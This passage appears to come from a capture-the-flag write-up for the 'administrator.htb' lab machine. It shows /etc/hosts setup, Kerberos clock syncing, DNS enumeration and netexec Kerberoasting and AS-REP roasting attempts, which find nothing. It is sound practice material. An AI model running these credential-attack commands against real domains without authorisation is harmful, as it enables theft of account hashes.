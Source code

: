#### Updating ETC/HOSTS &amp; Variables: {#updating-etc-hosts-and-variables}

-   **Updated Domain &amp; Machine Variables for Testing**:
    -   Now that I have this information, I can update the `domain` and `machine` variables used in tests:
        -   `update_var domain "administrator.htb"`
        -   `update_var machine "DC"`

-   **Updating `/etc/hosts` for DNS and LDAP Queries**:
    -   I update my `/etc/hosts` file to enable tools like [kerbrute](https://github.com/ropnop/kerbrute) for user enumeration and other tools that require DNS or LDAP for queries:
        -   `echo "$box   $domain $machine.$domain" | sudo tee -a /etc/hosts`


#### Syncing Clocks for Kerberos Exploitation: {#syncing-clocks-for-kerberos-exploitation}

-   Since Kerberos is enabled on this host, it's best practice to sync our clock with the host’s. This helps avoid issues from clock misalignment, which can cause false negatives in Kerberos exploitation attempts.
    -   `sudo ntpdate -s $domain`
    -   +Note+: I am doing this now as we have the DNS name etc.


### DNS `53`: {#dns-53}

-   **Using dnsenum to enumerate DNS entries**:
    -   `dnsenum -r --dnsserver $box --enum -p 0 -s 0 -f ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt $domain`
    -   {{< figure src="/ox-hugo/2024-11-10-081759_.png" >}}
    -   Nothing of note.
    -   +Note+: The timestamps for this will be strange (if you look at those) due to having an issue with DNS for a while. It suddenly resolve.


### Kerberos `88`: {#kerberos-88}


#### Using netexec for Kerberoasting: {#using-netexec-for-kerberoasting}

-   **As we have creds we can kerberoast**:
    -   `netexec ldap $box -u $user -p $pass --kerberoast kerb.txt`
    -   {{< figure src="/ox-hugo/2024-11-10-075703_.png" >}}
    -   None


#### Using netexec for ASReproasting: {#using-netexec-for-asreproasting}

-   **We should always try and asreproast with a null/guest session as it can lead to an easy win**:
    -   `netexec ldap $box -u $user -p $pass --asreproast asrep.txt`
    -   {{< figure src="/ox-hugo/2024-11-10-075756_.png" >}}
    -   Nothing:
